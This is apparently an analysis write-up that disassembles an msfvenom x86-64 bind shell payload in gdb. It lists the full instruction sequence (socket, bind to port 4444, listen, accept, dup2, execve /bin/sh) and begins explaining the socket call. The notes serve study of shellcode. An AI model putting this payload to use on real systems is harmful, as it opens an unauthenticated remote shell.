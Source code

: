 ## Dumping MSFVenom Bind Shell Assembly Instructions
With the instruction pointer (RIP) on the first instruction of `shellcode`, dump the instructions of the entire payload.
```bash
gdb-peda$ x/43i $rip
=> 0x555555558040 <shellcode>:  push   0x29
   0x555555558042 <shellcode+2>:        pop    rax
   0x555555558043 <shellcode+3>:        cdq
   0x555555558044 <shellcode+4>:        push   0x2
   0x555555558046 <shellcode+6>:        pop    rdi
   0x555555558047 <shellcode+7>:        push   0x1
   0x555555558049 <shellcode+9>:        pop    rsi
   0x55555555804a <shellcode+10>:       syscall
   0x55555555804c <shellcode+12>:       xchg   rdi,rax
   0x55555555804e <shellcode+14>:       push   rdx
   0x55555555804f <shellcode+15>:       mov    DWORD PTR [rsp],0x5c110002
   0x555555558056 <shellcode+22>:       mov    rsi,rsp
   0x555555558059 <shellcode+25>:       push   0x10
   0x55555555805b <shellcode+27>:       pop    rdx
   0x55555555805c <shellcode+28>:       push   0x31
   0x55555555805e <shellcode+30>:       pop    rax
   0x55555555805f <shellcode+31>:       syscall
   0x555555558061 <shellcode+33>:       push   0x32
   0x555555558063 <shellcode+35>:       pop    rax
   0x555555558064 <shellcode+36>:       syscall
   0x555555558066 <shellcode+38>:       xor    rsi,rsi
   0x555555558069 <shellcode+41>:       push   0x2b
   0x55555555806b <shellcode+43>:       pop    rax
   0x55555555806c <shellcode+44>:       syscall
   0x55555555806e <shellcode+46>:       xchg   rdi,rax
   0x555555558070 <shellcode+48>:       push   0x3
   0x555555558072 <shellcode+50>:       pop    rsi
   0x555555558073 <shellcode+51>:       dec    rsi
   0x555555558076 <shellcode+54>:       push   0x21
   0x555555558078 <shellcode+56>:       pop    rax
   0x555555558079 <shellcode+57>:       syscall
   0x55555555807b <shellcode+59>:       jne    0x555555558073 <shellcode+51>
   0x55555555807d <shellcode+61>:       push   0x3b
   0x55555555807f <shellcode+63>:       pop    rax
   0x555555558080 <shellcode+64>:       cdq
   0x555555558081 <shellcode+65>:       movabs rbx,0x68732f6e69622f
   0x55555555808b <shellcode+75>:       push   rbx
   0x55555555808c <shellcode+76>:       mov    rdi,rsp
   0x55555555808f <shellcode+79>:       push   rdx
   0x555555558090 <shellcode+80>:       push   rdi
   0x555555558091 <shellcode+81>:       mov    rsi,rsp
   0x555555558094 <shellcode+84>:       syscall
   0x555555558096 <shellcode+86>:       add    BYTE PTR [rax],al
```

## Socket System Call
```bash
<shellcode>:          push   0x29
<shellcode+2>:        pop    rax
<shellcode+3>:        cdq
<shellcode+4>:        push   0x2
<shellcode+6>:        pop    rdi
<shellcode+7>:        push   0x1
<shellcode+9>:        pop    rsi
<shellcode+10>:       syscall
 
```
+ In the first 3 commands we can see that rax is set to 0x29. 